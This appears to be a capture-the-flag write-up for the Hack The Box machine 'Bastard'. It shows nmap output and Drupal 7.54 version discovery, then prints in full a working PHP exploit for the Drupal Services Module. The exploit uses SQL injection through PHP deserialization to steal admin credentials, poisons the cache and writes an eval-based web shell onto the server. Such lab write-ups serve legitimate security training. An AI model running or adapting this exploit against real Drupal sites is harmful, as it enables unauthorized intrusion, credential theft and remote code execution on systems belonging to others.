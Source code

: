 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)
<br>Now download the exploit from the blog and edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
**Exploit**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat exploit.php 
<br>#!/usr/bin/php
<br><?php
<br># Drupal Services Module Remote Code Execution Exploit
<br># https://www.ambionics.io/blog/drupal-services-module-rce
<br># cf
<br>#
<br># Three stages:
<br># 1. Use the SQL Injection to get the contents of the cache for current endpoint
<br>#    along with admin credentials and hash
<br># 2. Alter the cache to allow us to write a file and do so
<br># 3. Restore the cache
<br># </p>

<p># Initialization</p>

<p>error_reporting(E_ALL);</p>

<p>define('QID', 'anything');
<br>define('TYPE_PHP', 'application/vnd.php.serialized');
<br>define('TYPE_JSON', 'application/json');
<br>define('CONTROLLER', 'user');
<br>define('ACTION', 'login');</p>

<p>$url = <font color="53E100">'http://10.10.10.9'</font>;
<br>$endpoint_path = <font color="53E100">'/rest'</font>;
<br>$endpoint = 'rest_endpoint';</p>

<p>$file = [
<br>    'filename' => 'dixuSOspsOUU.php',
<br>    'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
<br>];</p>

<p>$browser = new Browser($url . $endpoint_path);</p>


<p># Stage 1: SQL Injection</p>

<p>class DatabaseCondition
<br>{
<br>    protected $conditions = [
<br>        "#conjunction" => "AND"
<br>    ];
<br>    protected $arguments = [];
<br>    protected $changed = false;
<br>    protected $queryPlaceholderIdentifier = null;
<br>    public $stringVersion = null;</p>

<p>    public function __construct($stringVersion=null)
<br>    {
<br>        $this->stringVersion = $stringVersion;</p>

<p>        if(!isset($stringVersion))
<br>        {
<br>            $this->changed = true;
<br>            $this->stringVersion = null;
<br>        }
<br>    }
<br>}</p>

<br>class SelectQueryExtender {
<br>    # Contains a DatabaseCondition object instead of a SelectQueryInterface
<br>    # so that $query->compile() exists and (string) $query is controlled by us.
<br>    protected $query = null;

<br>    protected $uniqueIdentifier = QID;
<br>    protected $connection;
<br>    protected $placeholder = 0;

<br>    public function __construct($sql)
<br>    {
<br>        $this->query = new DatabaseCondition($sql);
<br>    }
<br>}

<br>$cache_id = "services:$endpoint:resources";
<br>$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
<br>$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';

<br># Take first user but with a custom password
<br># Store the original password hash in signature_format, and endpoint cache
<br># in signature
<br>$query = 
<br>    "0x3a) UNION SELECT ux.uid AS uid, " .
<br>    "ux.name AS name, '$password_hash' AS pass, " .
<br>    "ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
<br>    "ux.pass AS signature_format, ux.created AS created, " .
<br>    "ux.access AS access, ux.login AS login, ux.status AS status, " .
<br>    "ux.timezone AS timezone, ux.language AS language, ux.picture " .
<br>    "AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
<br>    "WHERE ux.uid<>(0"
<br>;

<br>$query = new SelectQueryExtender($query);
<br>$data = ['username' => $query, 'password' => 'ouvreboite'];
<br>$data = serialize($data);

<br>$json = $browser->post(TYPE_PHP, $data);

<br># If this worked, the rest will as well
<br>if(!isset($json->user))
<br>{
<br>    print_r($json);
<br>    e("Failed to login with fake password");
<br>}

<br># Store session and user data

<br>$session = [
<br>    'session_name' => $json->session_name,
<br>    'session_id' => $json->sessid,
<br>    'token' => $json->token
<br>];
<br>store('session', $session);

<br>$user = $json->user;

<br># Unserialize the cached value
<br># Note: Drupal websites admins, this is your opportunity to fight back :)
<br>$cache = unserialize($user->signature);

<br># Reassign fields
<br>$user->pass = $user->signature_format;
<br>unset($user->signature);
<br>unset($user->signature_format);

<br>store('user', $user);

<br>if($cache === false)
<br>{
<br>    e("Unable to obtains endpoint's cache value");
<br>}

<br>x("Cache contains " . sizeof($cache) . " entries");

<br># Stage 2: Change endpoint's behaviour to write a shell

<br>class DrupalCacheArray
<br>{
<br>    # Cache ID
<br>    protected $cid = "services:endpoint_name:resources";
<br>    # Name of the table to fetch data from.
<br>    # Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
<br>    protected $bin = 'cache';
<br>    protected $keysToPersist = [];
<br>    protected $storage = [];

<br>    function __construct($storage, $endpoint, $controller, $action) {
<br>        $settings = [
<br>            'services' => ['resource_api_version' => '1.0']
<br>        ];
<br>        $this->cid = "services:$endpoint:resources";

<br>        # If no endpoint is given, just reset the original values
<br>        if(isset($controller))
<br>        {
<br>            $storage[$controller]['actions'][$action] = [
<br>                'help' => 'Writes data to a file',
<br>                # Callback function
<br>                'callback' => 'file_put_contents',
<br>                # This one does not accept "true" as Drupal does,
<br>                # so we just go for a tautology
<br>                'access callback' => 'is_string',
<br>                'access arguments' => ['a string'],
<br>                # Arguments given through POST
<br>                'args' => [
<br>                    0 => [
<br>                        'name' => 'filename',
<br>                        'type' => 'string',
<br>                        'description' => 'Path to the file',
<br>                        'source' => ['data' => 'filename'],
<br>                        'optional' => false,
<br>                    ],
<br>                    1 => [
<br>                        'name' => 'data',
<br>                        'type' => 'string',
<br>                        'description' => 'The data to write',
<br>                        'source' => ['data' => 'data'],
<br>                        'optional' => false,
<br>                    ],
<br>                ],
<br>                'file' => [
<br>                    'type' => 'inc',
<br>                    'module' => 'services',
<br>                    'name' => 'resources/user_resource',
<br>                ],
<br>                'endpoint' => $settings
<br>            ];
<br>            $storage[$controller]['endpoint']['actions'] += [
<br>                $action => [
<br>                    'enabled' => 1,
<br>                    'settings' => $settings
<br>                ]
<br>            ];
<br>        }
<br>
<br>        $this->storage = $storage;
<br>        $this->keysToPersist = array_fill_keys(array_keys($storage), true);
<br>    }
<br>}

<br>class ThemeRegistry Extends DrupalCacheArray {
<br>    protected $persistable;
<br>    protected $completeRegistry;
<br>}

<br>cache_poison($endpoint, $cache);

<br># Write the file
<br>$json = (array) $browser->post(TYPE_JSON, json_encode($file));


<br># Stage 3: Restore endpoint's behaviour

<br>cache_reset($endpoint, $cache);

<br>if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
<br>{
<br>    e("Failed to write file.");
<br>}

<br>$file_url = $url . '/' . $file['filename'];
<br>x("File written: $file_url");


<br># HTTP Browser

<br>class Browser
<br>{
<br>    private $url;
<br>    private $controller = CONTROLLER;
<br>    private $action = ACTION;

<br>    function __construct($url)
<br>    {
<br>        $this->url = $url;
<br>    }

<br>    function post($type, $data)
<br>    {
<br>        $headers = [
<br>            "Accept: " . TYPE_JSON,
<br>            "Content-Type: $type",
<br>            "Content-Length: " . strlen($data)
<br>        ];
<br>        $url = $this->url . '/' . $this->controller . '/' . $this->action;

<br>        $s = curl_init(); 
<br>        curl_setopt($s, CURLOPT_URL, $url);
<br>        curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
<br>        curl_setopt($s, CURLOPT_POST, 1);
<br>        curl_setopt($s, CURLOPT_POSTFIELDS, $data);
<br>        curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
<br>        $output = curl_exec($s);
<br>        $error = curl_error($s);
<br>        curl_close($s);

<br>        if($error)
<br>        {
<br>            e("cURL: $error");
<br>        }

<br>        return json_decode($output);
<br>    }
<br>}

<br># Cache

<br>function cache_poison($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
<br>    cache_edit($tr);
<br>}

<br>function cache_reset($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, null, null);
<br>    cache_edit($tr);
<br>}

<br>function cache_edit($tr)
<br>{
<br>    global $browser;
<br>    $data = serialize([$tr]);
<br>    $json = $browser->post(TYPE_PHP, $data);
<br>}

<br># Utils

<br>function x($message)
<br>{
<br>    print("$message\n");
<br>}

<br>function e($message)
<br>{
<br>    x($message);
<br>    exit(1);
<br>}

<br>function store($name, $data)
<br>{
<br>    $filename = "$name.json";
<br>    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
<br>    x("Stored $name information in $filename");
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
